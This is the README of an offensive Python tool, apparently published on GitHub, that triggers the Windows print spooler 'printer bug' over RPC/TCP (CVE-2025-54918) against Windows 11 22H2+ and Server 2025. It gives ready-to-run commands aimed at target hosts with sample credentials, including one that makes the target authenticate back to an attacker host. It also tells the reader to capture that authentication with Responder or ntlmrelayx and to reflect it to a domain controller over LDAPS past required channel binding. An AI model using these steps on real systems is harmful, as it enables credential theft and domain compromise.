 # Pure RPC over TCP Printer Spooler Trigger
## For Windows 11 22H2+ / Windows Server 2025


## Usage
```
CVE-2025-54918.py <target_host> [username] [password] [domain] [attacker_host] [tcp_port]
```

## Examples

### Anonymous connection
```bash
CVE-2025-54918.py 192.168.1.100
```

### With credentials
```bash
CVE-2025-54918.py 192.168.1.100 admin Password123 DOMAIN
```

### Trigger backconnect to different host (attacker)
```bash
CVE-2025-54918.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50
```

### Use specific RPC port
```bash
CVE-2025-54918.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50 49152
```

## Notes
- Target must be Windows 11 22H2+ or Server 2025 (RPC over TCP default)
- For older versions, spoolss uses RPC over Named Pipes (SMB)
- Ensure ports 135 and dynamic RPC ports (49152-65535) are open
- Start Responder or ntlmrelayx on attacker_host to capture auth
- Kerberos fails in this case due to a bad SPN from the spooler, forcing NTLM fallback.
- Find the target spooler’s RPC/TCP port by querying the target Endpoint Mapper (EPM) on TCP/135 for the interface UUID 12345678-1234-abcd-ef00-0123456789ab. You can use rpcdump.py, PortQry, or any tool you prefer - or just implement the EPM lookup directly in this code ;)
- Based on https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
  <br><br>
  <img width="2019" height="657" alt="image" src="https://github.com/user-attachments/assets/84e8955e-c6ca-46de-abc8-b75829e259cc" />
<br><br>
  <img width="1555" height="844" alt="image" src="https://github.com/user-attachments/assets/3cecf90c-b581-4042-a487-6bb99e236475" />
<br><br>
<img width="548" height="332" alt="image" src="https://github.com/user-attachments/assets/84fe1c1b-4da2-4ce2-91c1-76e8c732b34f" /><br><br>
## Update for CVE-2025-54918
This exploit via reflection works only on W2025 with the "new" printerbug (DCERPC instead of Named Pipes).
You’ll need to modify ntlmrelayx at a couple of points for it to work. After that, you can remotely trigger the printer bug on a W2025 DC and reflect authentication via LDAPS(!), even if Channel Bindings is **REQUIRED**<br>
